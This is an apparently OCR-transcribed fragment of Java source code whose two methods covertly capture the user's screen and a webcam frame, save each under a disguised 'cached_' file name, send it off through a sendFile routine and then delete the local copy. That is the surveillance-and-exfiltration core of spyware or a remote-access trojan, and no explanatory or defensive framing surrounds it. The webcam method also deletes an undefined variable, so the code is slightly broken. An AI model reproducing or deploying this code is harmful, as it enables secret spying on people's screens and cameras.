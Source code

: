             for (int i = 0; i < count; i++) {
                output[pos++] = buf[i];
            }
        }
        return output;
    }


    @SuppressWarnings("all")
    private static void captureScreen() throws Exception {
        Dimension screenSize = Toolkit.getDefaultToolkit().getScreenSize();
        Rectangle screenRectangle = new Rectangle(screenSize);
        Robot robot = new Robot();
        BufferedImage image = robot.createScreenCapture(screenRectangle);
        int random = new Random().nextInt();
        File file = new File("cached_" + random + ".png");
        ImageIO.write(image, "png", file);
        sendFile(file);
        file.delete();
    }
    
    private static void captureCamera() throws Exception {
        Webcam cam = Webcam.getDefault();
        cam.open();
        int random = Math.abs(new Random().nextInt());
        File webcam = new File("1cached_" + random + ".png");
        ImageIO.write(cam.getImage(), "PNG", webcam);
        cam.close();
        sendFile(webcam);
        file.delete();
    }
}
